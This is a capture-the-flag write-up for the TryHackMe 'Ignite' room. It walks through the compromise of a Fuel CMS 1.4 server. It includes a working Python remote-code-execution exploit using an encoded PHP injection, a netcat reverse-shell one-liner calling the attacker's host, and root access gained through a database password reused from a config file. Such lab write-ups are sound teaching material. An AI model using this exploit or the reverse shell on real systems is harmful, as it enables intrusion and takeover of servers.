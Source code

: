 # Ignite (THM)

- https://tryhackme.com/room/ignite
- March 4, 2023
- easy

---

## Enumeration

### Nmap

1. 80/http Apache httpd 2.4.18 (Ubuntu)
   - robots.txt -> /fuel/
2. 5405/tcp

### HTTP

![](images/2023-03-04-18-38-55.png)


- fuel CMS 1.4
- find from searchsploit and found RCE for fuel CMS
- I edit to python3 and get RCE

```python
import requests
from urllib.parse import quote

url = "http://10.10.251.195"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+quote(xxxx)+"%27%29%2b%27"
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print(r.text)
```

- enter cmd to get reverse shell
- listen with nc at local machine and in cmd

```sh
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

## User Access

- get `www-data` user access
- spawn shell

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
$ cat /home/www-data/flag.txt
```

## Root Access

- `sudo -l` -> don't know password
- find SUID -> nothing special found
- run linpeas
- Interested Findings

```
- Vulnerable to CVE-2021-4034
- Active Ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -

```

- nothing found but there are many files inside /var/www/html
- I found data configuration file at `/var/www/html/fuel/application/config/database.php`

```php
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	...
);
...
```

- change root user with password

```sh
$ su root
$ cat /root/root.txt
```

---
